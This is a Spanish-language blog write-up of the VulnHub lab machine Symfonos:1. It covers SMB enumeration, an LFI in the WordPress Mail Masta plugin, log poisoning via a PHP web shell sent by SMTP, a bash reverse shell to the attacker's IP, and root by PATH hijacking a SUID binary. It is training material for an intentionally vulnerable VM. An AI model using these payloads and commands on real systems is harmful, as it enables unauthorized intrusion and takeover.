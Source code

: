```yaml
---
layout: single
title: Symfonos:1 - VulnHub
excerpt: " Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.
-   Name: symfonos: 1
-   Difficulty: Beginner
-   Tested: VMware Workstation 15 Pro & VirtualBox 6.0
-   DHCP Enabled "
date: 2022-11-30
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-symfonos1/symfonos1.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:  
  - samba
  - smb
  - wordpress
  - hijacking
  - telnet
---
```


Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.
-   Name: symfonos: 1
-   Difficulty: Beginner
-   Tested: VMware Workstation 15 Pro & VirtualBox 6.0
-   DHCP Enabled

# Summary
- IP: 192.168.0.115
- Ports: 22,25,80,139,445,
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.4p1 Debian 10+deb9u
	-  25 -> Postfix smtpd
	-  80-> Apache httpd 2.4.25
	- 139 -> Samba smbd 3.X - 4.X
	- 445 -> Samba smbd 4.5.16-Debian

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p22,25,80,139,445 -sCV 10.10.129.26 -oN targeted
```

- Enumeramos los recursos compartidos con Samba:

```bash
$smbmap -H 192.168.0.103
```

- Analizamos el directorio "Anonymous" y descargamos lo que tiene:

```bash
$smbmap -H 192.168.0.103 -r anonymous

$smbmap -H 192.168.0.103 --download anonymous/attention.txt
```

- Obtenemos psibles contraseñas leyendo el archivo "attention.txt", accedemos a los recursos del user "helios" con una de estas contraseñas y descargamos lo que hay dentro:

```bash
$smbmap -H 192.168.0.103 -u helios -p qwerty -r helios
$smbmap -H 192.168.0.103 -u helios -p qwerty --download helios/research.txt
$smbmap -H 192.168.0.103 -u helios -p qwerty --download helios/todo.txt
```

- Leemos el archivo "todo.txt" y encontramos un directorio "/h3l105" accedemos a este y encontramos un wordpress.
- Analizamos la página Wordpress, revisando el código fuente enumeramos los plugis en búsqueda de alguno vulnerable, encontramos el plugin "mail masta", buscamos vulns:

```bash
$searchsploit mail masta
```

- Vemos que hay un LFI, aprovechamos esta vuln y hacemos un escaneo básico de LFI buscando posibles caminos para pasar a RCE:

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

- Al no encontrar nada, nos damos cuenta que el puerto 25 está abierto (protocolo smtp) así que  buscamos en el directorio:

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios 

- Encontramos el log mail del usuario helios, por lo que podemos hacer LOG POISONING, mandamos un mail al usuario helios desde un email cualquiera con código php incrustado que genere un parámetro "cmd" en el que podamos insertar comandos:

```bash
$telnet 192.168.0.103 25

MAIL FROM: andres
RCPT TO: helios
DATA
<?php system($_GET['cmd']); ?>
```

- Ahora podemos ejecutar comandos apuntando al parámetro "cmd", nos entablamos una reverse shell para ganar acceso a la máquina:

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261

- Hacemos tratamiento de tty.

# ESCALANDO PRIVILEGIOS:

- Buscamos privilegios SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Encontramos un archivo sospechoso "/opt/statuscheck" lo analizamos:

```bash
$ strings /opt/statuscheck
```

- Vemos que en una parte del binario ejecuta el comando "curl" usando ruta relativa, lo cual podemos explotar con PATH HIJAKING:

```bash
$ nano /tmp/curl
$ chmod +x /tmp/curl
$ export PATH=/tmp:$PATH
$ ./statuscheck
$ ls -l /bin/bash
```

- Accedemos como ROOT 
```bash
$bash -p
```
